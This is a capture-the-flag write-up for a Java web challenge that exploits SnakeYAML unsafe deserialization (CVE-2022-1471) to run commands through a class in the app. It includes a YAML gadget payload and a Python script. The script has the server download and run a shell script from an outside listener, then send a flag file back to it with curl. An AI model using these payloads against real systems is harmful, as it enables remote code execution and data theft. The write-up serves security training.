

# [Web] Watersnake

This webapp is written in Java. It allows a user to define a firmware to be updated via a yaml configuration.

There is 1 vulnerability to exploit: the yaml is deserialised from the user input. The library reading it is `org.yaml.snakeyaml.Yaml`, which is vulnerable to [CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471): any class can be deserialized.

```java
	@PostMapping("/update")
	public String update(@RequestParam(name = "config") String updateConfig) {
       	InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
       	Yaml yaml = new Yaml();
	    Map<String, Object> obj = yaml.load(is);
		obj.forEach((key, value) -> System.out.println(key + ":" + value));
		return "Config queued for firmware update";
	}
```

In order to exploit it, we need to use a class present in the classpath. Fortunately the class `GetWaterLevel` allows to run system calls

```java
public class GetWaterLevel {
    public static String readFromSensor(String value) throws IOException {
        ProcessBuilder processBuilder = new ProcessBuilder(value.split("\\s+"));
        Process process = processBuilder.start();
        InputStream inputStream = process.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
        StringBuilder output = new StringBuilder();
        String line;
        while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
        }
        try {
            int exitCode = process.waitFor();
            if (exitCode != 0) {
                throw new IOException("[-] Command execution failed with exit code " + exitCode);
            }
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException("[-] Command execution interrupted", e);
        }
        return output.toString();
    }
    public void initiateSensor(String value) {
        try {
			readFromSensor(value);
		} catch (IOException e) {
			System.out.println(e.getMessage());
		}
    }
    public GetWaterLevel(String value) {
        initiateSensor(value);
   }
```

Hence we can run code with something like:
```java
'!!com.lean.watersnake.GetWaterLevel ["curl http://1.2.3.4:4444/"]
```

Final exploit is:
```python
from requests import post

lol_sh = """
aaa=$(cat /flag.txt)
curl http://1.2.3.4:4444/aaa=$aaa
"""

endpoint = "http://94.237.55.114:50060"
update_path = "/update"
exploit1 = 'curl -o /tmp/lol.sh http://1.2.3.4:4444/lol.sh'
exploit2 = 'sh /tmp/lol.sh'
payload = {
    "config": '!!com.lean.watersnake.GetWaterLevel ["{}"]'.format(exploit1)
}
response = post(endpoint + update_path, data=payload)
payload = {
    "config": '!!com.lean.watersnake.GetWaterLevel ["{}"]'.format(exploit2)
}
response = post(endpoint + update_path, data=payload)
```

From the listener on `1.2.3.4:4444`, we receive the callback containing the flag.


